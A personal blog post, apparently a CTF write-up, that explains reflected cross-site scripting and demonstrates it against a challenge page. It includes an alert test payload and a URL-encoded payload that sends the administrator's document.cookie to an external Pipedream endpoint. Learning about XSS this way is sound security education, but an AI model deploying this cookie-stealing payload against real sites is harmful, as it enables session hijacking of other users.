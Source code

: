 ```yaml
---
title: XSS Vulnerabilities
summary: Explanation of some XSS Vulnerabilities
date: "2021-07-23T10:00:00+02:00"

---
```


![xss_image](xss_image.jpeg)

# Introduction
**Cross-Site Scripting (XSS)** Attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application uses input from a user whitin the output it generates without **validating or encoding it.**

#### There are three types of XSS, which are:

- Stored
- Reflected
- DOM-based

You can find more information about them [here](https://owasp.org/www-community/Types_of_Cross-Site_Scripting).

Today I will be explaining _Reflected XSS_. It arises when an application receives data in an HTTP request and includes that data within the immediate response in an unsafe way.

If an attacker can control a script that is executed in the victim's browser, then they can typically fully compromise that user. Amongst other things, the attacker can:

  - Perform any action within the application that the user can perform.
  - View any information that the user is able to view.
  - Modify any information that the user is able to modify.
  - Initiate interactions with other application users, including malicious attacks, that will appear to originate from the initial victim user.


## Hands on!!

In this example, I will follow along a hacking challenge from a platform, so some screenshots will be chopped/painted.

Put this situation: you have an input which the user can controll (as for example, a parameter in the url) which then gets reflected in the web you are trying to hack.
We found this page, where you input some URL, and when it's not found, it just returns that the page is not found, referencing it with a link.

As the name ((Reflected-XSS)) suggests, we can see that our input is **reflected** within the webpage:
![xss1](xss1.PNG)

This input should be sanitized/disabled, for example telling our webserver to remove URL queries, otherwise we could try to change this with a custom payload, such as: 

```javascript
'onmousemove='alert(1)
```

Come along with me, check if we can inject some JS inside the URL query:


![xss2](xss2.png)

Nice! Now that we see we can inject javascript, move forward to steal the administrator's cookie. :cookie:

For this purpose I will use [Pipedream](https://pipedream.com) (bafore called pastebin), but you can use any endpoint of your choice.

In order to take the administrator's cookie, I am going to change my payload aiming the query to my endpoint so I can receive my cookie!
My new payload will be:
```javascript
?p=%27%20onmouseover=%27setTimeout(function()%7Bdocument.location=%22https://[[[pipedream_endpoint]]]pipedream.net?%22.concat(document.cookie);%7D,1)
```

A simple explanation about the modified payload:
1. The [setTimeout](https://www.w3schools.com/jsref/met_win_settimeout.asp) function is used to trigger a custom function, as the parameter is called with 1ms (0,001 seconds) thus always hitting the race condition.
2. The ['Document Location'](https://developer.mozilla.org/en-US/docs/Web/API/Document/location) directive is used to send the administrator's cookie to our custom endpoint.
3. The [Document.Cookie](https://developer.mozilla.org/en-US/docs/Web/API/Document/cookie) parameter will show us the cookie.

This way we will send the cookie to our endpoint and check for it's results:
![xss3](xss3.png)

As this is from a cybersecurity challenge, won't show the flag. But you can see the query which contain the cookie we wanted.

And this is all for tonight! :night_with_stars:
